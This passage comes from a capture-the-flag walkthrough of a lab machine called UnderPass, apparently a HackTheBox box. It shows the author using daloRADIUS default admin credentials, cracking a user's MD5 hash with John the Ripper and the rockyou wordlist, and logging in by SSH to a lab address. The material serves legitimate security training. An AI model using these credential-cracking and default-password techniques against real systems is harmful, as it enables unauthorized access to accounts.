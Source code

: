 ```
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
```

6. What is the password for the administrator user on the daloRADIUS application?
Search for 'daloradius default credentials' in google shows you `radius` is the default. These creds don't work on the user login but do on the admin

7. What is the clear text password of the svcMosh user on UnderPass?
- After logging into the operators portal, you find a user `svcMosh` and what looks like a hash of a password
```
┌──(root㉿kali)-[/home/jacob/Desktop/underpass]
└─# echo "412DD4759978ACFCC81DEAB01B382403" > hash.txt

┌──(root㉿kali)-[/home/jacob/Desktop/underpass]
└─# john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                                                                             
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
underwaterfriends (?)     
1g 0:00:00:00 DONE (2025-07-06 08:16) 7.142g/s 21314Kp/s 21314Kc/s 21314KC/s undiamecaiQ..underpants2
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
8. Submit the flag located in the svcMosh user's home directory.
- Tried using the svcMosh:underwaterfriends creds in the `/users/login.php` with no luck
- Revisting the NMAP scan makes me realise SSH is there
```
┌──(root㉿kali)-[/home/jacob/Desktop/underpass]
└─# ssh svcMosh@10.129.231.213
The authenticity of host '10.129.231.213 (10.129.231.213)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.129.231.213' (ED25519) to the list of known hosts.
svcMosh@10.129.231.213's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul  5 10:20:01 PM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   49.6% of 6.56GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.129.231.213
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
```